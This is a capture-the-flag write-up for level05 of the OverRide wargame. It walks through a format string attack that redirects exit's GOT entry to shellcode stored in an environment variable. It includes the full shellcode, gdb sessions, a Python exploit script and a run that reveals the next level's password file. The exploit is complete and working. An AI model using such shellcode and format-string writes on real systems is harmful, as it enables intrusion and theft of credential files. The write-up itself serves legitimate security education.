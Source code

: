 # Level05

Looking at the source code, we have a very simple binary that will print a buffer (in an unsecured manner) that gets filled via a call to fgets. There is a XOR between 32 and each character if they're in uppercase, that will convert them to lowercase. A very simple trick we could do would be very similar to [rainfall level5](https://github.com/SERAC-SGM/rainfall-42/tree/main/level05) :

- We craft a payload that will show the next password, and store it in an env variable
- We change the address of exit in the global offset table (got) by the address of the env variable using a format string attack
- We enjoy the next level (no)

We can simply reuse the python code of rainfall level5, but this time instead of calling a function, we will call the address of the env variable as previously said. Unlike the function though, this address will most likely change each time we edit the variable so we'll have to recalculate the values in our exploit. That means this exploit won't work out of the box.

We crafted a very cute little shellcode in the last level, so we'll update and reuse it here :

    export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass"')

Now, we need to find the offset of our format string attack (everything is explained in detail in rainfall levels 3 trough 5) :

    level05@OverRide:~$ ./level05 
    aaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
    aaaa 0x64 0xf7fcfac0 0xf7ec3add 0xffffd61f 0xffffd61e (nil) 0xffffffff 0xffffd6a4 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 

We can see we need to edit the 10th %p (--> %10$p).

Next, we need the address of our PAYLOAD variable, and the address of the exit() function in the got.

    (gdb) disas main
    [...]
        0x08048513 <+207>:	call   0x8048370 <exit@plt>
    [...]
    (gdb) disas 0x8048370
    Dump of assembler code for function exit@plt:
    0x08048370 <+0>:	jmp    *0x80497e0
    0x08048376 <+6>:	push   $0x18
    0x0804837b <+11>:	jmp    0x8048330
    End of assembler dump.
    (gdb) x 0x80497e0
    0x80497e0 <exit@got.plt>:	0x08048376

First one, now the PAYLOAD address

    (gdb) break main
    Breakpoint 1 at 0x8048449
    (gdb) r
    Starting program: /home/users/level05/level05 

    Breakpoint 1, 0x08048449 in main ()
    (gdb) x/500s $esp
    [...]
    0xffffdef3:	 "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311̀\211\306\353\006\260\001\061\333̀\211\363\260\003\203\354\001\215\f$\262\001̀1\333\071\303t\346\260\004\263\001\262\001̀\203\304\001\353\337\350\311\377\377\377/home/users/level06/.pass"
    [...]
    (gdb) x/s 0xffffdefb
    0xffffdefb:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311̀\211\306\353\006\260\001\061\333̀\211\363\260\003\203\354\001\215\f$\262\001̀1\333\071\303t\346\260\004\263\001\262\001̀\203\304\001\353\337\350\311\377\377\377/home/users/level06/.pass"

Nailed it. Now, like rainfall level5, we slice the payload address in 2 parts : ffff and defb. We just need to play around with the numbers to get the final address right. Once we get the whole address :

    Breakpoint 1, 0x0804850c in main ()
    (gdb) x 0x80497e0
    0x80497e0 <exit@got.plt>:	0xffffdefb

We're good to go. Here is the python code that was used to overflow exit() :

    import struct

    PAYLOAD = 0xffffdefb
    EXIT_PLT = 0x80497e0

    def pad(s):
        return s+"Y"*(100-len(s))

    exploit = ""
    exploit += struct.pack("I",EXIT_PLT)
    exploit += struct.pack("I",EXIT_PLT+2)
    exploit += "aaaa"
    exploit += "%10$57071x"
    exploit += "%10$n"
    exploit += "%8452x"
    exploit += "%11$n"

    print pad(exploit)

Only one thing to remember : The last characters written are 64y for some reason

Now that our exploit is ready, we can simply run the binary :

    level05@OverRide:~$ python payload.py > payload
    level05@OverRide:~$ ./level05 < payload
    [...]
    64yh4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

Once we remove the previously mentioned "64y", we have our password : 

h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
